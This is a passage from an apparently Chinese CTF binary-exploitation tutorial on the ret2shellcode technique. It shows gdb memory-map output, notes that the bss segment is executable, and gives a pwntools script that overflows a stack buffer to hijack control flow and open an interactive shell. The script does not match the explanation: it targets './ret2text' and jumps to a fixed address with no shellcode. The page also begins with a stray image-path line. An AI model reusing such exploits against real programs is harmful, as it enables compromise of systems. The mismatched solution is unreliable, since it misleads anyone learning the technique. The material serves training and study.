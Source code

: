 ```shell
0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0x08049000 0x0804a000 0x00000000 r-x /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
0xf7dfc000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fab000 0xf7fac000 0x001af000 --- /lib/i386-linux-gnu/libc-2.23.so
0xf7fac000 0xf7fae000 0x001af000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7faf000 0x001b1000 rwx /lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb2000 0x00000000 rwx 
0xf7fd3000 0xf7fd5000 0x00000000 rwx 
0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffb000 0xf7ffc000 0x00000000 rwx 
0xf7ffc000 0xf7ffd000 0x00022000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 0x00023000 rwx /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 0x00000000 rwx [stack]
```

通过vmmap，我们可以看到bss段对应的段具有可执行权限

```text
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
```

那么这次我们就控制程序执行shellcode，也就是读入shellcode，然后控制程序执行bss段处的shellcode。其中，相应的偏移计算类似于ret2text中的例子。

具体的payload如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c + 4) + p32(target))
sh.interactive()
```

## 题目

- sniperoj-pwn100-shellcode-x86-64

# ret2syscall

## 原理

ret2syscall需要我们控制程序执行系统调用，获取shell。
